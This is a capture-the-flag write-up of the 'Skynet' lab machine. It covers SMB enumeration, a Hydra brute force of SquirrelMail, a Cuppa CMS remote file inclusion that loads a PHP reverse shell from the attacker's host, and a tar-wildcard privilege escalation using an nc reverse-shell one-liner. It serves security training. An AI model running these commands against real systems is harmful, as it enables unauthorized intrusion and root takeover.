




# Skynet

IP Address: 10.10.215.100

## Description

A vulnerable Terminator themed Linux machine.

## Flags

1. 7ce5c2109a40f958099283600a9ae807
2. 3f0372db24753accc7179a282cd6a949

## Enumeration/Scanning

### Nmap:
```sh
sudo nmap -sV -vv -sC -oN skynet.nmap 10.10.215.100
# Nmap 7.92 [scan](scan.md) initiated Wed Oct  5 19:45:52 2022 as: nmap -sV -vv -sC -oN skynet.nmap 10.10.215.100
Increasing send delay for 10.10.215.100 from 0 to 5 due to 262 out of 873 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 5 to 10 due to 11 out of 19 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 10 to 20 due to 11 out of 15 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 20 to 40 due to 11 out of 14 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 40 to 80 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 80 to 160 due to 11 out of 14 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 160 to 320 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 320 to 640 due to 11 out of 12 dropped probes since last increase.
Increasing send delay for 10.10.215.100 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.215.100
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2022-10-05 19:45:52 PDT for 105s
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp open  pop3        syn-ack ttl 63 Dovecot pop3d
|_pop3-capabilities: RESP-CODES PIPELINING UIDL SASL AUTH-RESP-CODE TOP CAPA
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 63 Dovecot imapd
|_imap-capabilities: IMAP4rev1 more LITERAL+ have SASL-IR OK ENABLE post-login listed IDLE capabilities LOGINDISABLEDA0001 Pre-login ID LOGIN-REFERRALS
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2022-10-06T02:47:28
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44004/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22001/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 39822/udp): CLEAN (Failed to receive data)
|   Check 4 (port 49968/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2022-10-05T21:47:28-05:00

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 19:47:37 2022 -- 1 IP address (1 host up) scanned in 105.61 seconds
```

#### Port 80



#### Gobuster

```sh
$ gobuster dir -u http://10.10.215.100 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
/admin                (Status: 301) [Size: 314] [--> http://10.10.215.100/admin/]
/ai                   (Status: 301) [Size: 311] [--> http://10.10.215.100/ai/]
/config               (Status: 301) [Size: 315] [--> http://10.10.215.100/config/]
/squirrelmail         (Status: 301) [Size: 321] [--> http://10.10.215.100/squirrelmail/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.215.100/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.215.100/js/]
```

We discovered that the webserver is running:
- Apache/2.4.18 (Ubuntu) Server at 10.10.215.100 Port 80
- SquirrelMail version 1.4.23 [SVN]



#### Port 445

Here we see that Samba is running. Lets enumerate:

```sh
$  nmap --script smb-enum-shares -p445 -oN smb-enum.nmap 10.10.215.100
# Nmap 7.92 scan initiated Wed Oct  5 20:35:05 2022 as: nmap --script smb-enum-shares -p445 -oN smb-enum.nmap 10.10.215.100
Nmap scan report for 10.10.215.100
Host is up (0.21s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.215.100\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (skynet server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.215.100\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.215.100\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.215.100\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

# Nmap done at Wed Oct  5 20:35:45 2022 -- 1 IP address (1 host up) scanned in 39.52 seconds
```

Let's use `smbclient` to further enumerate:

```sh
$ smbclient //10.10.215.100/anonymous                         5s 08:41:35 PM
Password for [WORKGROUP\andrew]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 08:04:00 2020
  ..                                  D        0  Tue Sep 17 00:20:17 2019
  attention.txt                       N      163  Tue Sep 17 20:04:59 2019
  logs                                D        0  Tue Sep 17 21:42:16 2019
        
                        9204224 blocks of size 1024. 5829488 blocks available
smb: \> cd Logs
smb: \Logs\> dir
  .                                   D        0  Tue Sep 17 21:42:16 2019
  ..                                  D        0  Thu Nov 26 08:04:00 2020
  log2.txt                            N        0  Tue Sep 17 21:42:13 2019
  log1.txt                            N      471  Tue Sep 17 21:41:59 2019
  log3.txt                            N        0  Tue Sep 17 21:42:16 2019
          
                        9204224 blocks of size 1024. 5829484 blocks available
```

Now we need to save attantion.txt and log1.txt to our attack macine; since log2.txt and log3.txt are empty, we wont bother saving them.

```sh
$ smbclient //10.10.215.100/anonymous -c 'get attention.txt'
Password for [WORKGROUP\andrew]:
getting file \attention.txt of size 163 as attention.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)

$ smbclient //10.10.215.100/anonymous -c 'get \Logs\log1.txt'    08:51:15 PM
Password for [WORKGROUP\andrew]:
getting file \Logs\log1.txt of size 471 as Logs\log1.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

```sh
$ cat attention.txt                                              08:44:48 PM
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

```sh
$ cat Logs\\log1.txt                                          7s 08:54:54 PM
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```
                        
We found a list of possible passwords! 

## Exploitation

### Hydra

Earlier we discovered SquirrelMail running on the webserver when we used gobuster. Since we have a username and a password list, we can run hydra and bruteforce the webmail.

```sh
$ hydra -l milesdyson -P passwords.txt 10.10.215.100 http-post-form "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-05 21:25:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.215.100:80/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[80][http-post-form] host: 10.10.215.100   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-05 21:25:45
```

We now have a username and password, lets login!

Username: milesdyson
Password: cyborg007haloterminator



Here we find a password reset with a password )s{A&2Z=F^n_E.B`, and if we recall attention.txt, it mentioned a password change.

Let's log into Miles' share using our new found password.

```sh
smbclient //10.10.215.100/milesdyson --user milesdyson         09:53:48 PM
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 02:05:47 2019
  ..                                  D        0  Tue Sep 17 20:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 02:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 02:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 02:05:14 2019
  notes                               D        0  Tue Sep 17 02:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 02:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 02:05:14 2019
                
                                9204224 blocks of size 1024. 5829188 blocks available
```

```sh
smb: \> cd notes\
smb: \notes\> dir

...

1.02 Linear Algebra.md              N    70314  Tue Sep 17 02:01:29 2019
important.txt                       N      117  Tue Sep 17 02:18:39 2019
6.01 pandas.md                      N     9221  Tue Sep 17 02:01:29 2019
    
...
```

Let's download `important.txt` and read it.

```sh
$ smbclient //10.10.215.100/milesdyson --user milesdyson -c 'get notes\important.txt'
Password for [WORKGROUP\milesdyson]:
getting file \notes\important.txt of size 117 as notes\important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

```sh
$ cat notes\\important.txt                                       10:01:14 PM

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
``` 

Here we find a hidden directory! Let's navigate there.

### Gobuster

Let's run `gobuster` on our new directory, and see what comes up:

```sh
gobuster dir -u http://10.10.215.100/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-hidden-dir.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.215.100/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/05 22:27:18 Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [Size: 339] [--> http://10.10.215.100/45kra24zxs28v3yd/administrator/]
Progress: 5938 / 220561 (2.69%)                                                                          ^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2022/10/05 22:29:24 Finished
===============================================================
```

If we navigate to http://10.10.215.100/45kra24zxs28v3yd/administrator/ , we notice Cuppa CMS running. Searching [Exploit Database](https://www.exploit-db.com) reveals a remote file exclusion vulnerability.



#### Exploit

Now we need to download a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell), start a server and listener, and exploit this vulnerability.

##### URL

```
http://10.10.169.159/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.57.77/php-reverse-shell.php
```

##### Python Server

```sh
$ python3 -m http.server 80            1m 3s 10:48:47 PM
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.169.159 - - [05/Oct/2022 22:48:53] "GET /php-reverse-shell.php HTTP/1.0" 200 -
```

##### Listener
 
```sh
$ nc -lvnp 4444                                                                                         10:48:30 PM
listening on [any] 4444 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.169.159] 44120
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
00:48:53 up 15 min,  0 users,  load average: 0.00, 0.05, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$    
```

##### Flag

```sh
$ cd home/milesdyson/
$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

### Privilege Escalation

For privilege escalation enumeration, let's check the cronjobs:

```sh
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

We see that /home/milesdyson/backups/backup.sh runs every minute, so lets inspect it and see if we can take advantage.

```sh
$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

We can exploit this as found here: [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)
```sh
$ cd /var/www/html                                           
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.57.77 4445 >/tmp/f" > shell.sh
$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"
```

```sh
nc -lvnp 4445                                                                                         11:06:17 PM
listening on [any] 4445 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.169.159] 45918
/bin/sh: 0: can't access tty; job control turned off
# 
```

Now we are root!

#### Flag

```sh
# cd
# ls
root.txt
# cat root.txt
3f0372db24753accc7179a282cd6a949
# 
```
